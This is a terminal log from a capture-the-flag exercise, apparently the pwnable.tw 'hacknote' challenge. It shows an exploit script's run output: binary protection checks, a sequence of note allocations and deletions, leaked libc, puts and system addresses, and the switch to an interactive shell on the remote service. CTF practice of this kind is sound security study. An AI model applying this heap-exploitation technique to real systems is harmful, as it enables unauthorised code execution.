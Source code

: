 ```console
┌──(kali㉿kali)-[~/CTF/pwnable_tw/hacknote]
└─$ python3 sploit.py               
[+] Opening connection to chall.pwnable.tw on port 10102: Done
[*] '/home/kali/CTF/pwnable_tw/hacknote/libc_32.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/kali/CTF/pwnable_tw/hacknote/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
b'----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Note size :'
b'Content :'
b'Success !\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Note size :'
b'Content :'
b'Success !\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Index :'
b'Success\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Index :'
b'Success\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Note size :'
b'Content :'
b'Success !\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Invalid choice\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :Index :'
[+] PUTS ADDR: 0xf766d140
[+] LIBC ADDR: 0xf760e000
[+] SYSTEM ADDR: 0xf7648940
b'\xe6\x84\x04\x08@eb\xf7\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Index :'
b'Success\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Note size :'
b'Content :'
b'Success !\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :'
b'Invalid choice\n----------------------\n       HackNote       \n----------------------\n 1. Add note          \n 2. Delete note       \n 3. Print note        \n 4. Exit              \n----------------------\nYour choice :Index :'
[*] Switching to interactive mode
```